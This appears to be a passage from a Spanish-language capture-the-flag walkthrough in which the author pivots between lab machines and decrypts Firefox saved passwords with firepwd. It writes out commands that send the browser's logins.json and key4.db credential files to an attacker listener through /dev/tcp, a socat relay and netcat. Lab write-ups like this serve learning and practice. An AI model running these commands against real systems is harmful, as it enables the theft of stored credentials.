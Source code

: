 Explicación: en el directorio de `hermoine` tenemos un directorio oculto `.mozilla` en el que se encuentra un perfil de usuario, que almacena contraseñas que podemos ver en el archivo `logins.json`. Para poder crackear estas credenciales usaremos la herramienta `firepwd`

Acción:

```bash
git clone https://github.com/lclevy/firepwd
cd firepwd
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt
python3 -m pip install pycryptodome
python3 firepwd.py
```

Resultado:

```bash
Usage: firepwd.py [options]

Options:
  -h, --help            show this help message and exit
  -v VERBOSE, --verbose=VERBOSE
                        verbose level
  -p MASTERPASSWORD, --password=MASTERPASSWORD
                        masterPassword
  -d DIRECTORY, --dir=DIRECTORY
                        directory
```

Explicación: con esta herramienta instalada en nuestra máquina atacante, solo tenemos que traernos el archivo `key4.db` y el archivo `logins.json` y pasárselo como argumento al script

Acción: desde máquina atacante

```bash
nc -lvnp 1215 > logins.json
```

Acción: desde Nagini, como `hermoine`

```bash
cat < logins.json > /dev/tcp/10.10.0.128/5050
```

Acción: desde Aragog (podemos cerrar el Socat anterior ya que tenemos acceso vía ssh)

```bash
./socat TCP-LISTEN:5050,fork TCP:192.168.1.66:1215
```

Explicación:  forma de transferir archivos a través de `cat`. Repetimos la acción pero con el archivo `key4.db`

Acción:

```bash
python3 firepwd.py
```
